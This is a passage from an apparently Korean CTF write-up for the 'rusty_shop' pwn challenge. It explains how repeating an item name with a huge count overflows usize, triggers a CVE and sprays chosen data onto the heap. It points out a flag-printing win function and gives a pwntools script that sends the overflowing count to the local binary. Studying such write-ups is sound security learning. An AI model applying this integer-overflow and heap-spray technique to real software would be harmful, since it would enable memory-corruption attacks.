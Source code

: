 이 함수 호출이 하는 역할은 `basket`에 포함된 `item`의 `name`을 `count`만큼 이어붙인 스트링을 만드는 것이다. 그리고 `name`과 `count`는 모두 우리가 조작할 수 있는 값이다.

만약 `count`*`len(name)`이 `usize` 자료형의 최대 값인 `0xffffffffffffffff(8byte)`을 초과하게 되면, `CVE`를 트리거할 수 있을것이다.

<u>따라서 우리는 원하는 값(name)을 힙에 스프레이할 수 있다.</u>

---

### Some interesting point

`exploit`을 쉽게하기 위한 몇몇 장치가 보인다.

```c++
// rusty_shop::win
void __cdecl rusty_shop::win()
{
  system("cat /home/rusty_shop/flag");
}
```

```asm
.data.rel.ro:0000000000701E40 _ZN10rusty_shop4FUNC17h691c840a26d656e2E dq offset rusty_shop__win
```

---

## 🔨Attack

위의 `CVE`를 다음 스크립트로 한 번 테스트해보자.

```python
from pwn import *

count = 0x10000000000000000/8 + 1

check=''

p = process("./rusty_shop")

p.sendlineafter("6","1")
p.sendlineafter("Name",p64(0x31313131))
p.sendlineafter("Desc","ATTACK")
p.sendlineafter("Price","1")
p.sendlineafter("6","4")
p.sendlineafter("add","1")
p.sendlineafter("Count",str(count))
pause()
p.sendlineafter("6","6")

p.interactive()
```


